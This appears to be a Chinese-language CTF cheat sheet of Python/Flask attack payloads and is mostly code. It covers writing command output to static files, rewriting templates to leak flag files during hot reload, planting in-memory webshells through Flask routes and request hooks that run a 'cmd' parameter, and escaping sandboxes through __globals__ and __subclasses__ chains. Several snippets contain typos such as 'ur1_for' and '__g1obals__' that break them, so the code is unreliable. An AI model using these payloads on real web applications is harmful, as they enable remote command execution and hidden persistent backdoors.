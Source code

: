 ```python
#Fifker
import os
with open("static/test.txt",'w') as f:
	f.write(os.popen('dir').read())
```

如果没static会写入失败，这时候可以先 `mkdir static ; ls >static/1.txt`

#### 2.写templates/rce.html模板文件

#### 3.写app.py热加载

```python
__import__('os').system("sed -i \"s/rce.html/`cat /f*`/\" rce.py")
```

#### 4.打内存马

```python
app._got_first_request=False;app.add_url_rule('/shell','shel1',lambda:'<pre>{0}</pre>'.format(import_('os').popen(request.args.get('cmd')).read()))

app.before_request_funcs.setdefault(None, []).append(lambda: __import__('os').popen('').read())

app.after_request_funcs.setdefault(None, []).append(lambda x: y if exec('import os;global y;y=make_response(os.popen("dir").read())')==None else x)
```

#### 5.利用沙箱中函数的\_\_globals\_\_属性获取\_\_builtins\_\_

```python
ur1_for.__globals__['__builtins__']['eval']
```

```python
get_flashed_messages,lipsum.......
```

```python
ur1_for.__globals__['__builtins__']['eval']("app.after_request_funcs.setdefault(None,[])append(lambda resp:CmdResp if request.args.get('cmd') and exec(\"global CmdResp;CmdResp=__import__(\'flask\').make_response(__import __(\'os\').popen(request.args.get(\'cmd\'))read())\")==None else resp)",{'request':ur1_for.__globals__['request'],'app':ur1_for.__g1obals__['sys'].modules['__main__'].__dict__['app']})
```

#### 6.利用继承关系逃逸

```python
 for i in ''.__class__.__base__.__subclasses__():
     c+=1
     if 'wrapper' not in str(i.__init__):
         print(c)
        #找非wrapper的init函数
```

```python
''.__class__.__base__.__subclasses__()[104].__init__.__globals__['__builtins__']['eval']("''.__class__.__base__.__subclasses__()[104].__init__.__globals__['__builtins__']['__import__']('os').popen('dir').read()")
```
